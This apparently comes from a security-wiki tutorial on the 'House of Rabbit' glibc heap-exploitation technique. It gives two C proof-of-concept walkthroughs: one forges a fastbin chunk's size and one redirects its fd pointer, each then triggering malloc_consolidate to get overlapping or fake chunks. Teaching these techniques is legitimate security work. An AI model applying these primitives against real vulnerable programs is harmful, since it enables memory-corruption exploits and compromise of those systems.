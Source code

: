 # House of Rabbit


### Requirements

1. **Ability to modify fast bin fd pointer or size**: This means you can change the forward pointer of a chunk in the fastbin or its size.
2. **Ability to trigger `malloc_consolidate`**: This can be done by either allocating a large chunk or merging the top chunk, which forces the heap to consolidate chunks.

### Goals

1. **Create overlapping chunks**: To have one chunk overlap with another, allowing for further heap manipulations.
2. **Forge fake chunks**: To trick the allocator into treating a fake chunk as a legitimate chunk during heap operations.

## Steps of the attack

### POC 1: Modify the size of a fast bin chunk

**Objective**: Create an overlapping chunk by manipulating the size of a fastbin chunk.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```

We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fast bin list once freed.

* **Step 2: Free Chunks**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```

We free both chunks, adding them to the fastbin list.

* **Step 3: Modify Chunk Size**

```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```

We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **Step 4: Trigger `malloc_consolidate`**

```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk triggers the `malloc_consolidate` function, merging small chunks in the fast bin. The manipulated size of `chunk1` causes it to overlap with `chunk2`.

After consolidation, `chunk1` overlaps with `chunk2`, allowing for further exploitation.

### POC 2: Modify the `fd` pointer

**Objective**: Create a fake chunk by manipulating the fast bin `fd` pointer.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```

**Explanation**: We allocate two chunks, one smaller and one larger, to set up the heap for the fake chunk.

* **Step 2: Create fake chunk**

```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```

We write fake chunk metadata into `chunk2` to simulate smaller chunks.

* **Step 3: Free `chunk1`**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
```

**Explanation**: We free `chunk1`, adding it to the fastbin list.

* **Step 4: Modify `fd` of `chunk1`**

```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```

**Explanation**: We change the forward pointer (`fd`) of `chunk1` to point to our fake chunk inside `chunk2`.

* **Step 5: Trigger `malloc_consolidate`**

```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### Summary

The **House of Rabbit** technique involves either modifying the size of a fast bin chunk to create overlapping chunks or manipulating the `fd` pointer to create fake chunks. This allows attackers to forge legitimate chunks in the heap, enabling various forms of exploitation. Understanding and practicing these steps will enhance your heap exploitation skills.

